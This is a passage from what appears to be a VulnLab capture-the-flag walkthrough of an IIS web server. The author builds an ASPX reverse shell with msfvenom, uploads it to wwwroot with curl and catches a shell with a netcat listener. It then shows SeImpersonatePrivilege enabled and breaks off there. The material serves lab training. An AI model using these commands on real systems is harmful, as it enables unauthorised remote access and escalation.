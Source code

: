 Browsing to this on the website, it seems that all this code is doing is printing out `Hello World` to the web page.

![](/images/vulnlab/job-vl/g.png)

I've dealt with IIS websites before, and I do recall that most exploits (or at least RCE) involve some form of ASPX or ASP reverse shell. Given that we have write access to the web application's home directory, I'm assuming that we can simply just generate one and potentially get a callback as the backend user.

We'll generate an ASPX reverse shell with `msfvenom`.

```
└─$ msfvenom -p windows/x64/shell_reverse_tcp -ax64 -f aspx LHOST=10.8.0.173 LPORT=9002 > daz.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3415 bytes
```

We'll then transfer it to the local machine in the `wwwroot` directory, we can do this simply with a Python server - `python3 -m http.server 9005`.

```
PS C:\inetpub\wwwroot> curl http://10.8.0.173:9005/daz.aspx -O daz.aspx
PS C:\inetpub\wwwroot> ls

Directory: C:\inetpub\wwwroot

Mode                 LastWriteTime         Length Name                   
----                 -------------         ------ ----                   
d-----        11/10/2021   8:52 PM                aspnet_client          
d-----         11/9/2021   9:24 PM                assets                 
d-----         11/9/2021   9:24 PM                css                    
d-----         11/9/2021   9:24 PM                js                     
-a----         7/14/2024   6:03 PM           3415 daz.aspx               
-a----        11/10/2021   9:01 PM            298 hello.aspx             
-a----         11/7/2021   1:05 PM           3261 index.html             
-a----         7/14/2024   5:57 PM             14 test.txt
```

We'll then set up another listener on `nc -lvnp 9002` based on our `msfvenom` payload and browse to the file on the webpage.

![](/images/vulnlab/job-vl/h.png)

As you can see, our listener called back and we received a new shell as `defaultapppool`.

# Exploiting SeImpersonatePrivilege

Upon checking our privileges as this user, it seems that we have `SeImpersonatePrivilege` set.

```
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```